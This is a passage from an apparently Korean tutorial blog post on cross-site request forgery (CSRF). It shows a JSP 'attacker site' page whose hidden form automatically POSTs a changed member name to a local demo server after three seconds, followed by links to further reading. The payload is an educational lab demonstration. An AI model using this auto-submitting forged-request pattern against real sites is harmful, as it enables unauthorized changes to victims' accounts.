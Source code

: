 `<form></form>` 태그와 hidden 타입의 `<input />` 태그를 사용합니다. 
`JavaScript`를 이용해 페이지 렌더링이 수행되자마자 폼 전송을 시도합니다.

##### 공격자 악성 페이지 - POST 방식
- form 태그와 hidden 타입의 input 태그로 POST 요청을 수행합니다.

```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core" %>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Attacker Site</title>
</head>
<body>
<div id="wrap">
    <h1>악성 페이지 - 3초 뒤 숨겨진 폼(form) 전송</h1>
    <form action="http://localhost:8081/change" method="POST">
        <input type="hidden" id="memberName" name="memberName" value="JunhyunnyChangedByFormSubmit"/>
    </form>
    <script>
        setTimeout(function () {
            document.forms[0].submit();
        }, 3000);
    </script>
</div>
</body>
</html>
```

##### CSRF 공격 후 사용자 이름 변경 확인

<p align="center"><img src="/images/cross-site-reqeust-forgery-4.gif" class="image__border"></p>


[cookie-and-session-link]: https://junhyunny.github.io/information/cookie-and-session/
[cookie-attributes-link]: https://junhyunny.github.io/information/security/cookie-attributes/
[csrf-wiki-link]: https://ko.wikipedia.org/wiki/%EC%82%AC%EC%9D%B4%ED%8A%B8_%EA%B0%84_%EC%9A%94%EC%B2%AD_%EC%9C%84%EC%A1%B0
[csrf-attack-and-protection-link]: https://itstory.tk/entry/CSRF-%EA%B3%B5%EA%B2%A9%EC%9D%B4%EB%9E%80-%EA%B7%B8%EB%A6%AC%EA%B3%A0-CSRF-%EB%B0%A9%EC%96%B4-%EB%B0%A9%EB%B2%95
